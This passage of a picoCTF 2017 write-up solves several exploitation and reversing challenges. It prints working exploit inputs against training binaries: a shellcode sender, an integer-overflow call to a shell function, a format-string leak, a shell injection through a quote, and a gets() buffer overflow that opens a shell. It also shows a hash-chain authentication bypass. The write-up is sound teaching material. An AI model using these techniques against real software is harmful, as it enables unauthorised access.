context(arch="i386", os='linux')

payload = '''
/* call vuln funtion */
mov eax, 0x08048540
call eax 
'''


io = remote(host, port)
io.recvuntil("Give me 10 bytes:")
io.sendline(asm(payload))
print(io.readall())
io.close()

#+END_SRC

which gives the flag!

#+BEGIN_QUOTE
cd875b6ffb5cdd3319532d52ceca71aa
#+END_QUOTE

*** Guess The Number

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Guess-The-Number][Guess-the-Number]] 

#+BEGIN_QUOTE
Just a simple number-guessing game. How hard could it be? [[file:./guess_num][Binary]] [[file:./guess_num.c][Source.]] Connect on shell2017.picoctf.com:20545.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...
#+END_QUOTE

Solution :

Lets look at the souce code 
#+BEGIN_SRC C
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
#+END_SRC

From the souce we can see that the address in val is called at last , so we need to get the adress of the funtion win into ~val~ . 
Interger from the input is stored into the variable with the funtion ~strtol() : convert a string to a long integer~ , Then 4 byte is is shifted to right 


#+BEGIN_SRC shell
objdump -d guess_num
#+END_SRC

gives the address of  win as ~0x0804852b~ which is 134513963 , when giving this to output the address called is 0x804852, 
This is because of the shift operator
#+BEGIN_EXAMPLE
>>> 0x0804852b
134513963
>>> bin(134513963)
'0b1000000001001000010100101011'
>>> hex(0b100000000100100001010010)
'0x804852'
#+END_EXAMPLE
So we need to input larger number , lets give ~0x0804852bb~ which is ~2152223419~ , but the value stored in the memory was ~0x7ffffff~ , 
this happend because of the overflow  0x0804852bb > 2 ** 31 - 1 .

I spend some time here without seeing the hint saying about negative numbers . How negative numbers are stored in computer , One of the 
fundemental idea complement notaion . So now we need to find a negarive number . Two's complement of ~0x0804852bb~ is ~-2142743877~ . 


Which gives the Flag !
#+BEGIN_EXAMPLE
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743877
You entered -2142743877. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
#+END_EXAMPLE

Footnote :

1. http://www.exploringbinary.com/twos-complement-converter/

*** Ive Got A Secret
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Ive-Got-A-Secret][Ive-Got-A-Secret]] 

#+BEGIN_QUOTE
Hopefully you can find the right format for my [[file:./secret][secret!]] [[file:./secret.c][Source.]] Connect on shell2017.picoctf.com:42684.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
This is a beginning format string attack.
#+END_QUOTE

Solution : 

The souce contains a format string vulnarability @
#+BEGIN_SRC c
printf("Give me something to say!\n");
fflush(stdout);
fgets(buffer, BUF_LEN, stdin);
printf(buffer);  /*<-- Here*/
#+END_SRC

Executing gives 
#+BEGIN_EXAMPLE
Give me something to say!
HI
HI
Now tell my secret in hex! Secret: d
As my friend says,"You get nothing! You lose! Good day, Sir!"
#+END_EXAMPLE

Lets look at the source 
#+BEGIN_SRC C
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}

#+END_SRC

The program load a nunber from /dev/random and store it in variable secret , We have to use the format string to access variable and read its 
content

This is the place were the check occures
#+BEGIN_EXAMPLE
   0x080486ed <+258>:	add    esp,0x10
   0x080486f0 <+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486f3 <+264>:	mov    eax,DWORD PTR [ebp-0x14]
   0x080486f6 <+267>:	cmp    edx,eax
#+END_EXAMPLE

Breaking here and analysing the execution
#+BEGIN_EXAMPLE conf
gdb-peda$ break *0x080486f6
Breakpoint 1 at 0x80486f6
gdb-peda$ r
Starting program: /home/nemesis/Downloads/secret 
Give me something to say!
%x:%x:%x:%x:%x:%x 
40:f7faa5a0:8048792:1:ffffd0d4:756e6da
Now tell my secret in hex! Secret: 0x000111

[----------------------------------registers-----------------------------------]
EAX: 0x111 
EBX: 0x0 
ECX: 0x1 
EDX: 0x756e6da 
ESI: 0x1 
EDI: 0xf7faa000 --> 0x1b2db0 
EBP: 0xffffd028 --> 0x0 
ESP: 0xffffd010 --> 0x1 
EIP: 0x80486f6 (<main+267>:	cmp    edx,eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486ed <main+258>:	add    esp,0x10
   0x80486f0 <main+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x80486f3 <main+264>:	mov    eax,DWORD PTR [ebp-0x14]
=> 0x80486f6 <main+267>:	cmp    edx,eax
   0x80486f8 <main+269>:	jne    0x804871c <main+305>
   0x80486fa <main+271>:	sub    esp,0xc
   0x80486fd <main+274>:	push   0x804886b
   0x8048702 <main+279>:	call   0x8048480 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd010 --> 0x1 
0004| 0xffffd014 --> 0x111 
0008| 0xffffd018 --> 0x756e6da 
0012| 0xffffd01c --> 0x3 
0016| 0xffffd020 --> 0xf7faa3dc --> 0xf7fab1e0 --> 0x0 
0020| 0xffffd024 --> 0xffffd040 --> 0x1 
0024| 0xffffd028 --> 0x0 
0028| 0xffffd02c --> 0xf7e0f276 (<__libc_start_main+246>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080486f6 in main ()
gdb-peda$ 
#+END_EXAMPLE

EDX Register has the random hex which is shown by the 6 th %x , now we exploit !

#+BEGIN_EXAMPLE
Give me something to say!
%x:%x:%x:%x:%x:%x
40:f7fc7c20:8048792:1:ffffdd34:2e9a2fb1
Now tell my secret in hex! Secret: 0x2e9a2fb1
65aaf5d76d7fa708642cf1ab573ebf58
Wow, you got it!
#+END_EXAMPLE

*** Flagsay 1
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Flagsay-1][Flagsay-1]] 

#+BEGIN_QUOTE
I heard you like flags, so now you can make your own! Exhilarating! Use [[file:./flagsay-1][flagsay-1!]] [[file:./flagsay-1.c][Source]]. Connect on shell2017.picoctf.com:30556.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
System will run exactly what the program gives it
#+END_QUOTE

Solution : 

running the binary file 

#+BEGIN_EXAMPLE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/     
            //AAAAAA                             /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //                                                     


#+END_EXAMPLE

While giving random input i realized that giving " gives an error

#+BEGIN_EXAMPLE

"
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             // /
sh: 4: //: Permission denied
sh: 5: //: Permission denied
sh: 6: //: Permission denied
sh: 7: //: Permission denied
sh: 8: //: Permission denied
sh: 9: //___________________________________/: not found
sh: 10: //: Permission denied
sh: 11: //: Permission denied
sh: 12: //: Permission denied
sh: 13: //: Permission denied
sh: 14: //: Permission denied
sh: 15: //: Permission denied
sh: 17: Syntax error: Unterminated quoted string

#+END_EXAMPLE

From the error we can identify that all the lines after is beeing executed and we can give any input , giving "cat flag.txt , tells
us the flag

#+BEGIN_QUOTE

#+END_QUOTE

*** VR Gear Console

Link : [[https://2017game.picoctf.com/game/level-2/challenge/VR-Gear-Console][VR-Gear-Console]]
#+BEGIN_QUOTE
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: 
/problems/e9cab2bb993540454b19d3d56769d9e6
#+END_QUOTE

Hint: 
#+BEGIN_QUOTE
What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.
#+END_QUOTE

Solution :

Source code 

#+BEGIN_SRC C
#include <stdlib.h>
#include <stdio.h>

int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

#+END_SRC

This is a Simple buffer overflow , gets funtion is used to read the string and the acess variable is above the stack and we can overwrite it.
Overflow occures due to the fact that ~gets()~ funtion does not specify a boundary of the input and reads all the input the user have given,
and if input is larger that the variable size it keeps on writing data after the variable on the stack , so if there are other variable above
we can overwrite it's value.

Exploit Code
#+BEGIN_EXAMPLE
(python -c "print 'A'*16 + '\x20\npassword\n' "; cat - ) | ./vrgearconsole 
#+END_EXAMPLE
#+BEGIN_EXAMPLE

+----------------------------------------+
|                                        |
|                                        |
|                                        |
|                                        |
|  Welcome to the VR gear admin console  |
|                                        |
|                                        |
|                                        |
|                                        |
+----------------------------------------+
|                                        |
|      Your account is not recognized    |
|                                        |
+----------------------------------------+




Please login to continue...


Username (max 15 characters): Password (max 31 characters): Your access level is: 0x00000020
Admin access granted!
The flag is in "flag.txt".
cat flag.txt
da1e62f3da550878ed92d3d55d61fe7d

#+END_EXAMPLE

* Level 3
** Reversing 
*** Coffee
Link : [[https://2017game.picoctf.com/game/level-3/challenge/Coffee][Coffee]]

#+BEGIN_QUOTE
You found a suspicious USB drive in a jar of pickles. It contains this [[file:./freeThePickles.class][file]]
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
Is there a way to get the source of the program?
#+END_QUOTE

Solution :

This problem gives a java class file , by using a java decompiler we can get the source code
[[http://www.javadecompilers.com/][Java decompiler online]]

#+BEGIN_SRC java
import java.util.Base64.Decoder;

public class problem {
  public problem() {}
  
  public static String get_flag() { String str1 = "Hint: Don't worry about the schematics";
    String str2 = "eux_Z]\\ayiqlog`s^hvnmwr[cpftbkjd";
    String str3 = "Zf91XhR7fa=ZVH2H=QlbvdHJx5omN2xc";
    byte[] arrayOfByte1 = str2.getBytes();
    byte[] arrayOfByte2 = str3.getBytes();
    byte[] arrayOfByte3 = new byte[arrayOfByte2.length];
    for (int i = 0; i < arrayOfByte2.length; i++)
    {
      arrayOfByte3[i] = arrayOfByte2[(arrayOfByte1[i] - 90)];
    }
    System.out.println(java.util.Arrays.toString(java.util.Base64.getDecoder().decode(arrayOfByte3)));
    return new String(java.util.Base64.getDecoder().decode(arrayOfByte3));
  }
  
  public static void main(String[] paramArrayOfString) {
    System.out.println("Nothing to see here");
  }
}
#+END_SRC

Changed the source code to call get_flag funtion 

#+BEGIN_SRC java
    public static void main(String[] paramArrayOfString) {
	System.out.println("Nothing to see here");
	problem.get_flag();
    }
#+END_SRC

Just Running this java code gives the flag
#+BEGIN_EXAMPLE
flag_{pretty_cool_huh}
#+END_EXAMPLE

** Cryptography
*** HashChain

Link: [[https://2017game.picoctf.com/game/level-3/challenge/HashChain][HashChain]] 

#+BEGIN_QUOTE
We found a service hiding a flag! It seems to be using some kind of MD5 Hash Chain authentication to identify who is allowed to see the 
flag. Maybe there is a flaw you can exploit? hcexample.py has some example code on how to calculate iterations of the MD5 hash chain. 
Connect to it at shell2017.picoctf.com:2412!
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Connect from the shell with nc. Read up on how Hash Chains work and try to identify what could make this cryptosystem weak.
#+END_QUOTE

Solution :

The given python script

#+BEGIN_SRC python :results output org drawer
import md5 #Must be run in python 2.7.x

#code used to calculate successive hashes in a hashchain. 
seed = "seedhash"

#this will find the 5th hash in the hashchain. This would be the correct response if prompted with the 6th hash in the hashchain
hashc = seed
for _ in xrange(5):
  hashc = md5.new(hashc).hexdigest()
 
print hashc
#+END_SRC

running the remote program
#+BEGIN_EXAMPLE

,*******************************************
,***            FlagKeeper 1.1           ***
,*  now with HASHCHAIN AUTHENTICATION! XD  *
,*******************************************

Would you like to register(r) or get flag(f)?

r/f?

r
Hello new user! Your ID is now 4893 and your assigned hashchain seed is 68d3743587f71fbaa5062152985aff40
Please validate your new ID by sending the hash before this one in your hashchain (it will hash to the one I give you):
55f7eb629ebe76812d5a2c565067e311

#+END_EXAMPLE

it is asking to find the hash before the given hash in the hashchain , 

#+BEGIN_SRC python :results output org drawer :tangle /tmp/test.py

import md5 

seed = ""
last_hash = ""

hashc = seed
while True:
  hashc = md5.new(hashc).hexdigest()
  print hashc
  if hashc == last_hash:
    break

#+END_SRC

This script gives the required hash , Other thing is that the seed id the md5 hash of the user id 

let's give f as input 
#+BEGIN_EXAMPLE
,,*******************************************
,,***            FlagKeeper 1.1           ***
,,*  now with HASHCHAIN AUTHENTICATION! XD  *
,,*******************************************

Would you like to register(r) or get flag(f)?

r/f?

f
This flag only for user 8111
Please authenticate as user 8111
1ac73c7e8ab28db1e48377f985bf4dab
Next token?

#+END_EXAMPLE

we need to give the previous hash in the user's hash chain , and the seed is the md5 of the user id

#+BEGIN_EXAMPLE
This flag only for user 8111
Please authenticate as user 8111
1ac73c7e8ab28db1e48377f985bf4dab
Next token?
1beeffb8e649bc7efe80c706e7f562e3
Hello user 8111! Here's the flag: 232360dd1aa3dd2f25c6c4ffe1893a06


#+END_EXAMPLE

